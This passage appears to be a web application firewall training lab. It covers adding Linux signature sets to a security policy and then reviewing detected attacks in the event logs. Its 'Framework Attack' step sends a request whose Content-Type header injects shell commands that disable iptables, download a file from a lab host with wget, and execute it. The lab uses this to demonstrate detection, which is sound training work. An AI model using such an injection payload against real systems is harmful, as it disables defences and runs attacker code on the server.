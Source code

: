4. Scroll down to Advanced Settings > Server Technologies and click in the box. Search for Linux since we know the server is running Linux. The system will display a box describing which new signature sets will be applied. Click Confirm.

![image](https://user-images.githubusercontent.com/51786870/210517725-420aff8b-5893-4d5f-936a-db18a859ad4b.png)

![image](https://user-images.githubusercontent.com/51786870/210517785-9a193b58-5658-4448-8591-26d4594fa843.png)

6. Make sure to **Save** and **Apply Policy**.
7. Go to **Security > Application Security > Policy Building > Learning and Blocking Settings > Attack Signatures** and notice the new Unix/Linux Server Technology signature sets that were added to the policy.

![image](https://user-images.githubusercontent.com/51786870/210517924-850e02b9-1d07-4d98-a7b1-997e4dfc4362.png)

### Framework Attacks

1. Back in BURP navigate to the repeater tab and adjust the payload to the following and hit Send. Replace password with the password you’ve been using all along

**Framework Attack**
```
POST https://10.1.10.58/#/login HTTP/1.1
User-Agent: BestBrowser
Pragma: no-cache
Cache-Control: no-cache
Content-Type: /etc/init.d/iptables stop; service iptables stop; SuSEfirewall2 stop; reSuSEfirewall2 stop; cd /tmp; wget -c https://10.1.10.145:443/7; chmod 777 7; ./7;
Content-Length: 44
Host: juiceshop.f5demo.com

username=student@f5demo.com&password=student
```

![image](https://user-images.githubusercontent.com/51786870/210518168-1db7f73d-118c-41a2-8d24-9ba6360a80a8.png)


2. Browse to **Security > Event Logs > Application > Requests** and look for the most recent Severity 5 Event. Select the event, review the violations and click the 2 under Occurrences for the Attack signature detected violation.

![image](https://user-images.githubusercontent.com/51786870/210518293-2c1ce688-5905-4d25-b737-7638fdc3f0f4.png)

3. Click the little blue i and review the Attack Signature Details. We can see that this was a Systems based Unix/Linux Signature in staging mode.
![image](https://user-images.githubusercontent.com/51786870/210518444-c44a12c2-b2b2-4078-a887-9d84f13dc9b6.png)

4. We are now alerting on attacks aimed at Server Technologies.

**This completes Module 1**



# Class 1 Module 2
# Module 2: IP Intelligence
Expected time to complete: 30 minutes
